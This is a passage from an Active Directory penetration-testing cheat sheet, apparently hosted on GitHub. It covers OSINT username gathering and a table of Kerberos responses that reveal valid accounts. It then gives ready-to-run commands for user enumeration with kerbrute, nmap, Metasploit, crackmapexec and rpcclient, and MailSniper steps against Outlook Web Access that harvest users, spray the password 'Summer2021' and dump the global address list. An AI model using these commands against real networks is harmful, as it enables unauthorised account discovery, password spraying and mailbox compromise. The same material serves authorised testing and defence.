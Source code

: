 ### 5. OSINT

- Extract usernames/names from internal documents, social media, services (mainly web) inside the domain environments and also from the publicly available.

- If you find the complete names of company workers, you could try different AD username conventions

## Enumerating AD users without having Creds or Session
[back to top](#index)

You can use Kerberos (the AD gatekeeper) to see if a user exitist

| Username is | Server Response | Server Error |
| - | - | - |
| Invalid | Kerberos Error:  | `KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN` |
| Valid | `TGT in a AS-REP`  | - |
| Valid | Kerberos Error: | `KRB5KDC_ERR_PREAUTH_REQUIRED` |

Serveral Tools exists to help with this including nmap, msf, cme and kerbrute:

```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>

Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq

rpcclient <ip> - U ' '
# Hit enter at prompt for blank password
>enumdomusers
```

#### OWA (Outlook Web Access) server

if you found one of these servers in the network you can also perform user enumeration against it. For example, you could use the tool [mailsniper](https://github.com/dafthack/MailSniper)
```cmd
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```
